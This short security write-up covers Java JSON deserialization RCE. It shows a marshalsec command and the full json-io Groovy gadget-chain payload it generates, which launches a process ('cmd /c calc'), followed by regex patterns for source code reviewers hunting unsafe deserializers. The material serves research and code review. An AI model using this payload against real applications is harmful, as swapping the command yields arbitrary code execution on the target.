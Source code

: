 In [this](https://github.com/no-sec-marko/marshalsec/blob/master/marshalsec.pdf) research, M. Becheler, enumerates various JSON libraries and each method used for RCE exploitation. As part of the research, he provided an interesting tool, to automatically generates payloads for these libraries. For example, let's consider the following payload then:

```bash
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"

{"@type":"java.util.Arrays$ArrayList","@items":[{"@id":2,"@type":"groovy.util.Expando","expandoProperties":{"@type":"java.util.HashMap","hashCode":{"@type":"org.codehaus.groovy.runtime.MethodClosure","method":"start","delegate":{"@id":1,"@type":"java.lang.ProcessBuilder","command":{"@type":"java.util.ArrayList","@items":["cmd","/c","calc"]},"directory":null,"environment":null,"redirectErrorStream":false,"redirects":null},"owner":{"@ref":1},"thisObject":null,"resolveStrategy":0,"directive":0,"parameterTypes":[],"maximumNumberOfParameters":0,"bcw":null}}},{"@type":"java.util.HashMap","@keys":[{"@ref":2},{"@ref":2}],"@items":[{"@ref":2},{"@ref":2}]}]}
```

**Tips for Source Code reviewers**

To find this kind of vulnerability it is usually enough to search the code for common regexes, like: 

* `.*readObject\(.*`
* `java.beans.XMLDecoder`
* `com.thoughtworks.xstream.XStream`
* `.*\.fromXML\(.*\)`
* `com.esotericsoftware.kryo.io.Input`
* `.readClassAndObject\(.*`
* `.readObjectOrNull\(.*`
* `com.caucho.hessian.io`
* `com.caucho.burlap.io.BurlapInput`
* `com.caucho.burlap.io.BurlapOutput`
* `org.codehaus.castor`
* `Unmarshaller`
* `jsonToJava\(.*`
* `JsonObjectsToJava\/.*`
* `JsonReader`
* `ObjectMapper\(`
* `enableDefaultTyping\(\s*\)`
* `@JsonTypeInfo\(`
* `readValue\(.*\,\s*Object\.class`
* `com.alibaba.fastjson.JSON`
* `JSON.parseObject`
* `com.owlike.genson.Genson`
* `useRuntimeType`
* `genson.deserialize`
* `org.red5.io`
* `deserialize\(.*\,\s*Object\.class`
* `\.Yaml`
* `\.load\(.*`
* `\.loadType\(.*\,\s*Object\.class`
* `YamlReader`
* `com.esotericsoftware.yamlbeans`
